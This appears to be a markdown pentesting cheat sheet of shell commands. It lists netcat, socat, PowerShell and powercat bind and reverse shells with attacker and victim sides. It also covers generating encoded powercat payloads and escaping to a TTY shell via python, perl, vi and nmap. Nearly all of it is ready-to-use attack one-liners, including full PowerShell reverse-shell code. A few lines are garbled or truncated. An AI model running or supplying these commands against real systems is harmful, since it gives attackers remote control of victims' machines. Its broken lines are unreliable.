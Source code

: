 ```yaml
---
  title: "Shells and connections"
---
```


# Netcat
#### Bind shell
Victim side
`nc -nlvp 4444 -e cmd.exe`

Attacker side
`nc -nv IP 4444`

#### Reverse shell
Attacker side
`nc -nlvp 4444`

Victim side
`nc -nv IP 4444 -e /bin/bash`

# Socat
#### Bind shell
Victim side
`sudo socat TCP4-LISTEN:443 STDOUT`

Attacker side
`socat -TCP4:<remote server's ip address>:443`

#### Encrypted bind shell
create certificate
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`

combine the bind_shell key and the bind_shell.crt
`cat bind_shell.key bind_shell.crt > bind_shell.pem`

server side
`socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`

client side
`socat -OPENSSL:10.11.0.4:443,verify=0`
#### reverse shell
Victim side
`socat -d -d TCP4-LISTEN:443 STDOUT`

Attacker side
`socat TCP4:10.11.0.22:443 EXEC:/bin/bash`

# Powershell

#### reverse shell
Attacker
`nc -lnvp 443`

Victim
`$powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

#### bind shell
Attacker
`nc -nv IP 443`

Victim
`powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' +(pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"`

# Powercat
#### reverse shell
Attacker
`nc -lvp 443`

Victim
`powercat -c 10.11.0.4 -p 443 -e cmd.exe`

#### bind shell
# Attacker
`nc IP 443`

# Victim
`powercat -l -p 443 -e cmd.exe`

#### create stand-alone payloads
powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1

#### create encoded stand-alone payloads
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1

#### run the encoded payload
owershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZQB0AHUAcAAK..........


# Spawning a TTY shell
source: [netsec](https://netsec.ws/?p=337)

if python is available
`python -c 'import pty; pty.spawn("/bin/sh")'`

`echo os.system('/bin/bash')`

`/bin/sh -i`

if perl is available
`perl —e 'exec "/bin/sh";'`

`perl: exec "/bin/sh";`

if ruby is available
`ruby: exec "/bin/sh"`

if lua is available
`lua: os.execute('/bin/sh')`

Within IRB
`exec "/bin/sh"`

Within VI
`:!bash`

Within VI
`:set shell=/bin/bash:shell`

Within nmap console
`!sh`
